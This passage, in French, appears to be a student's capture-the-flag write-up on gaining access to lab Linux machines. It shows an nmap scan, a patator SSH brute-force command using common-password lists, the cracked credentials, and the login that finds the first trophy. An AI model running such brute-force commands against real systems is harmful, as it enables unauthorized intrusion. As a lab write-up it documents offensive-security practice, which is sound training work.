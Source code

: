 # Introduction

## Leonardo Greco Picoli

Objectives: **"_Capture the thophee_"**, 4 systèmes linux, avoir accès root dans 4 machines linux, à partir d'une VPN qui nous a été donné.

IP de la machine cible: 10.129.42.10  

## **Trophee 1 - Accès à la machine web1**

**veo5eixue3aer3mailiedoh4iezaeK**

```
└─$ nmap 10.129.42.0/24

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-25 07:29 EDT
Nmap scan report for 10.129.42.1
Host is up (0.049s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for 10.129.42.10
Host is up (0.049s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 256 IP addresses (2 hosts up) scanned in 3.78 seconds
```

Alors, pour accéder au service SSH on a utilisé la commande suivante:

`patator ssh_login host=10.129.42.10 user=FILE0 password=FILE1 0=users.txt 1=passwords.txt -x ignore:mesg='Authentication failed.'`

Le contenu du fichier [users.txt]() contient les 20 users le plus utilisés pour les systèmes et le fichier [password.txt]() contient les 200 mots de passe le plus utilisés pour le système.

Déjà, on peut voir que le SSH a une vulnerabilité pour ne pas utiliser l'authentication pour clé privé et publique (comme RSA, pour exemple), ça permet qu'on fasse le brute force sur le service SSH pour essayer de trouver un user et un mot de passe.
Effectivement, ça a marché et on a trouvé:

**User:** _www-data_  
**Password:** _batman_

Alors on fait `$ ssh www-data@10.129.42.10` en utilisant le mot de passe trouvé, après on fait `$ ls` et on arrive déjà a trouver un **trophee.trp**

```
The authenticity of host '10.129.42.10 (10.129.42.10)' can't be established.
ED25519 key fingerprint is SHA256:ELUexxMXAaCS1aMnQzCTDJ65WWB03h1BSaVHdqNhfNw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.42.10' (ED25519) to the list of known hosts.
www-data@10.129.42.10's password: 
Last login: Tue Apr 25 12:01:24 2023 from 172.31.7.254
www-data@web1:~$ ls
h  html  out2.pcap  out.pcap  trophee.trp
```

